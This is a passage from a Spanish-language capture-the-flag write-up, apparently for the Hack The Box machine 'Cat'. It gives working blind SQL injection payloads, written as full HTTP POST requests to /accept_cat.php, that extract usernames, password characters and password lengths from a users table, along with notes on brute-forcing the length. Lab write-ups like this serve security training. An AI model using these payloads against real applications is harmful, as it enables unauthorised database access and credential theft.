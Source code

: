 para sacar el segundo username de la base de datos basta con poner "LIMIT 1 OFFSET 1"
ahora sabemos que el segundo nombre de usuario empieza por "r":
![[Pasted image 20250208182641.png]]


####  2. Payload Base para Extraer Caracteres de la password
Basicamente lo mismo que arriba pero cambiando los parametros de la columna
```sql
catId=1&catName=test'||(SELECT 'true' FROM users WHERE SUBSTR(password, N, 1) = 'STRING' LIMIT 1)||'

```
![[Pasted image 20250208183008.png]]

### 3. Payload Base para saber la longitud de caracteres del Username
```sql
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=b4tdio58t0hjkt9od29jkfgo8j
Content-Length: 87

catId=1&catName=test'||(SELECT 'true' FROM users WHERE LENGTH(username) = 4 LIMIT 1)||'
```
Nos devuelve el 200 ya que sabemos que el primer username es Axel:
![[Pasted image 20250208185930.png]]

### 4. Payload Base para saber la longitud de caracteres del password
Lo mismo, diferente columna
```sql
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=421ue72qb057o1qhe5rge2cb7i
Content-Length: 97

catId=1&catName=test'||(SELECT 'true' FROM users WHERE LENGTH(password) = 32 LIMIT 1 OFFSET 0)||'
```
Ya uso offset 0 para referirme a la password de axel ; bueno sabemos que tiene 32 caracteres ya que nos da el 200 ok 

Para averiguar la longitud lo pase por en intruder para que me fuese haciendo un ataque de fuerza bruta por numeros del 1 al 100 , el que me dio respuesta 200 fue "32"
![[Pasted image 20250208190401.png]]
![[Pasted image 20250208190522.png]]
Tambien parece que el resto de passwords en la database tienen 32 caracteres ya que deben de estar hasheadas con el mismo algoritmo;
## Payload !
